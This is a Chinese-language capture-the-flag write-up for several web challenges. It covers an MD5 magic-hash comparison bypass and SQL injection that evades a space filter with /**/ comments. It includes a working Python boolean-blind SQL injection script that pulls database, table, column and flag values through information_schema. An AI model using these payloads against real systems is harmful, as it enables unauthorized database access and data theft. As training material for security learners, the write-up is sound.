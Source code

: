 `ctype_alpha()`函数，判断是否只包含字母，它返回true -如果字符串只包含字母，否则返回FALSE。 

`is_numeric()`用于检测变量是否为数字或数字字符串。

显然，我们需要使用一个纯数字和一个纯字母来绕过md5

> QNKCDZO
>
> 240610708

![image-20230411113931789](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111139822.png)





### web6

sql注入，过滤了空格，我们使用 `/**/`代替

![image-20230411114245737](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111142775.png)





### web7

![image-20230411114516347](https://raw.githubusercontent.com/leekosss/photoBed/master/202304111145380.png)



### web8

sql注入，这里使用布尔盲注

过滤了空格，union，逗号，单引号等等

```python
import requests

url = 'http://1ea7f8c2-f8ff-4e25-bf02-132c3d47e2a5.challenge.ctf.show/index.php?id=0/**/or/**/'
flag = ''
s = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
for i in range(1,80):
    for j in s:
        # payload = "ascii(substr((select/**/database())/**/from/**/{}/**/for/**/1))={}#".format(i,ord(j))  web8
        # payload = "ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())/**/from/**/{}/**/for/**/1))={}#".format(i,ord(j))
        # payload = "ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666c6167)/**/from/**/{}/**/for/**/1))={}#".format(i,ord(j))
        payload = "ascii(substr((select/**/group_concat(flag)/**/from/**/flag)/**/from/**/{}/**/for/**/1))={}#".format(i,ord(j))
        text =requests.get(url=url+payload).text
        if "If" in text:
            print(j,end="")
```
